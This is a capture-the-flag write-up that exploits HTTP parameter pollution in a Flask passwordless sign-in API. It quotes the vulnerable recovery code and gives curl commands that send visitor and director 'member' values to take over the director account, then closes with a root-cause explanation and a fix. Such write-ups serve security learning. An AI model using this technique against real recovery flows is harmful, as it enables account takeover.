

# VELVET REHEARSAL, HTTP Parameter Pollution in a Sign-In Flow, My Writeup

| | |
|---|---|
| **Platform** | pwnzone (hosted CTF event) |
| **Target** | VELVET REHEARSAL ("Collection desk" API, cinema theme) |
| **Service** | Flask on **Werkzeug/3.1.9**, Python 3.11.16, HTTP, TCP/8310 (EC2) |
| **IP:Port** | `54.72.82.22:8310` |
| **Flag format** | `safctf{...}` |
| **Date** | 2026-10-03 |
| **Outcome** | The recovery endpoint reads `member` with `getlist()`: the token is issued to the **last** `member`, but the mailbox is only shown if the **first** `member` is the visitor. Send both → get a director token in the visitor's mailbox → `/api/entry` → flag. |
| **Honesty note** | OSINT-desk block. I'd already pulled the shared `service.py` via the 8300 traversal, so I knew the exact logic before touching this one. |

---

## 1. The Short Version

The desk exposes a passwordless sign-in: `GET /api/members` lists the roster, `POST /api/recovery?member=...` mails a sign-in link, `POST /api/entry {"token":"..."}` opens the lounge. The roster is `visitor@studio.test` and `director@studio.test`; the flag needs a **director** token, but the mailbox is the visitor's.

The leaked logic:

```python
if op=='recovery':
  raw=request.args.getlist('member')
  target=raw[-1] if raw else 'visitor@studio.test'       # token is issued to the LAST member
  recipient=raw[0] if raw else target                     # mailbox shown only to the FIRST
  token=secrets.token_hex(18); state[token]=target
  if recipient=='visitor@studio.test': return {'mailbox':[{'subject':'Your sign-in link','token':token}]}
  return {'queued':True}
if op=='entry': return result(state.get(d.get('token'))=='director@studio.test')
```

`target` and `recipient` come from the **same** repeated parameter but different ends of the list. Send two `member` values, visitor first, director last, and you get a token *owned by the director* delivered into the *visitor's* mailbox:

```bash
curl -s -X POST "http://54.72.82.22:8310/api/recovery?member=visitor@studio.test&member=director@studio.test"
# {"mailbox":[{"subject":"Your sign-in link","token":"a717b31b01e64715a58246f22bb4fc5cb56c"}]}
curl -s -X POST "http://54.72.82.22:8310/api/entry" -H 'Content-Type: application/json' \
  --data '{"token":"a717b31b01e64715a58246f22bb4fc5cb56c"}'
# {"message":"safctf{1745c9cc8a433522796feb9cfb8275de}","ok":true}
```

**What I walked away with**

| Flag | Value | How |
|---|---|---|
| Flag | `safctf{1745c9cc8a433522796feb9cfb8275de}` | HPP: `?member=visitor&member=director` → director token in visitor mailbox → `/api/entry` |

---

## 1.1 Attack Chain



---

## 2. Weaknesses I Used

| # | What | Class | Where | Severity |
|---|---|---|---|---|
| 1 | Same repeated param drives two different decisions (owner vs. recipient) | **HTTP Parameter Pollution** (CWE-235) | `POST /api/recovery?member=` | High |
| 2 | Recovery token for one account delivered to another | **Broken Authentication / account takeover** (CWE-287/640) | recovery → entry | High |

---

## 3. Recon & Exploit

```bash
T=54.72.82.22:8310
curl -s "http://$T/api/members"
# {"members":["visitor@studio.test","director@studio.test"]}
```

The intended flow is: `recovery?member=visitor` → token in your mailbox → `entry` as visitor (no flag). `recovery?member=director` issues a director token but returns `{"queued":true}`, the mailbox isn't yours, so you never see it. The bug is that `recipient` and `target` are read from `raw[0]` and `raw[-1]` of the *same* list, so one request can be the visitor (for delivery) *and* the director (for ownership):

```bash
# visitor first → mailbox shown; director last → that's who the token signs you in as
RESP=$(curl -s -X POST "http://$T/api/recovery?member=visitor@studio.test&member=director@studio.test")
TOKEN=$(echo "$RESP" | python3 -c "import sys,json;print(json.load(sys.stdin)['mailbox'][0]['token'])")
curl -s -X POST "http://$T/api/entry" -H 'Content-Type: application/json' --data "{\"token\":\"$TOKEN\"}"
# {"message":"safctf{1745c9cc8a433522796feb9cfb8275de}","ok":true}
```

---

## 4. Why It Worked & How I'd Fix It

- **Root cause:** `getlist()` returns every `member` value, and the code pulls two *different* security-relevant fields (who the token is for, who may see it) from two ends of that list. The attacker controls both ends in one request. That's the essence of parameter pollution: the app and the attacker disagree about which value "wins," and the attacker supplies several.
- **The fix:** read exactly one value (`request.args.get('member')`, not `getlist`), and, more importantly, **send the recovery link only to the address that owns it**, never return a token in an HTTP response at all. A sign-in token for `director` must reach `director`'s real mailbox, out of band; whether the requester is `visitor` is irrelevant.

---

## 5. Timeline

- Source (from the 8300 traversal) showed `recovery` uses `getlist` with `target=last`, `recipient=first`.
- One request with `member=visitor&member=director` → token bound to director, shown in visitor's mailbox.
- `POST /api/entry {token}` → flag.

---

## 6. References

- OWASP, **Testing for HTTP Parameter Pollution**; CWE-235
- CWE-287 / CWE-640 (Broken Authentication / Weak Password Recovery)

**Lesson I'm keeping:** when a framework collects repeated params into a list, find every place the code indexes that list (`[0]`, `[-1]`), if two decisions read different ends, one request can be two identities.
